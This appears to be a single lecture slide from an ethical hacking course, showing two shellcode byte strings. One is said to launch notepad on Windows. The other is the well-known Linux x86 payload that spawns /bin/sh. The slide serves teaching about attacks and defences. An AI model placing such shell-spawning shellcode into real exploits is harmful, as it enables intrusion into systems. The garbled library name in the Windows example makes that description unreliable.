

# Shell Code Examples
68 78 fb 11 00 FF 15 30 20 40 00
launches notepad.exe in Windows using an already loaded library called Msvcr70.Sytem
eb 2a 5e 89 76 08 c6 46 07 00 c7 46 0c 00 00 00 00 b8 0b 00 00 00 89 f3 8d 4e 08 8d 56 0c cd 80 b8 01 00 00 00 bb 00 00 00 00 cd 80 e8 d1 ff ff ff 2f 62 69 6e 2f 73 68 00 89 ec 5d c3
launches a shell in Linux on Intel
Ethical Hacking and Defences
20